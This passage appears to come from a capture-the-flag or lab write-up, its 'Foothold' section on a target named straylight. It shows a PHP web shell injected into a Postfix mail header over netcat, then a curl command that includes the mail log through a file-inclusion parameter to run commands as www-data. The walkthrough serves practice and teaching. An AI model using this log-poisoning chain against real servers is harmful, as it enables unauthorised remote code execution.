 ``` bash
```

## Foothold

### Postfix mail log file backdoor

I used Postfix SMTP and sent a email with [php backdoor](https://github.com/leecybersec/web-shell/blob/master/php/backdoor.php) header

``` bash
┌──(Hades㉿192.168.56.110)-[3.0:40.9]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```

![7](img/7.png)

Go to Postfix mail log file `/var/log/mail`

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
